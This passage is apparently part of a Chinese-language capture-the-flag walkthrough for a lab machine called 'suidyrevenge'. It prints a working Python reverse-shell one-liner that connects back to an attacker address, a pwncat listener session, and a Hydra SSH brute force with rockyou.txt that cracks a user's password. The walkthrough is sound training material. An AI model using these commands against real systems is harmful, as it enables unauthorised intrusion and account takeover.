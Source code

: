 提升 pty

```shell
# python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 8888
[14:33:30] Welcome to pwncat 🐈!
[14:33:39] received connection from 192.168.56.109:42180
[14:33:39] 192.168.56.109:42180: registered new host w/ db
(local) pwncat$ back
(remote) www-data@suidyrevenge:/var/www/html/supersecure$ whoami
www-data
```

## User - www-data

### 题目提示

```plaintext title="/var/www/html/murdanote.txt"
I always lost my password so Im using
one password from rockyou.txt !

-murda
```

## SSH 爆破 - murda

```shell
┌─[✗]─[randark@parrot]─[~/tmp]
└──╼ $hydra -v -V -I -l murda -P /usr/share/wordlists/rockyou.txt 192.168.56.109 ssh -t 4
......
[22][ssh] host: 192.168.56.109   login: murda   password: iloveyou
```

## User - murda

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs murda@192.168.56.109
[14:37:23] Welcome to pwncat 🐈!
Password: ********
[14:37:25] 192.168.56.109:22: normalizing shell path
           192.168.56.109:22: registered new host w/ db
(local) pwncat$ back
(remote) murda@suidyrevenge:/home/murda$ whoami
murda
```

### 题目提示
